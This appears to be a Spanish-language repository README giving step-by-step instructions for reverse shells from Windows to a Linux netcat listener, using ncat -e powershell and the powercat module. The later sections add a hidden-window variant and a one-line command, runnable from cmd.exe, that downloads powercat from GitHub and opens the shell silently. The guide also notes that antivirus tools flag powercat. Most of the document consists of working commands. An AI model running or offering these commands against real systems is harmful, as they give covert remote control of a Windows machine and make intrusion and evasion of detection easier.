 # RemotePowerShells
Repositorio sobre shell remotas.

# Shell Remota entre Linux y Windows con Ncat

Este documento proporciona una guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat en Linux y Ncat en Windows, con la ventana de PowerShell en la máquina Windows.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre cmd.exe.
2. Inicia una shell remota con la ventana de PowerShell con el siguiente comando:
   ```
   ncat -e powershell <ip-address> 4444
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.



# Shell Remota entre Linux y Windows con Powercat

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.
**IMPORTANTE:** muchos antivirus, como Windows Defender, identifican el archivo `powercat.ps1` como código malicioso una vez descargado, bloqueándolo y eliminándolo.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
### Unificar descarga de Powercat, inicio de una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {Invoke-WebRequest 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
Este comando realiza las siguientes acciones:

1. Inicia un nuevo proceso de PowerShell con la ventana oculta.
2. Descarga el módulo Powercat e importa el módulo.
3. Establece la shell remota.

### Iniciar la shell desde cmd.exe

Aquí tienes el comando unificado que descarga Powercat, inicia una shell remota y oculta la ventana de PowerShell, todo en una sola línea desde un cmd.exe:
```
powershell -Command "& {Start-Process powershell -ArgumentList '-WindowStyle Hidden -Command & {Invoke-WebRequest ''https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}'}"
```
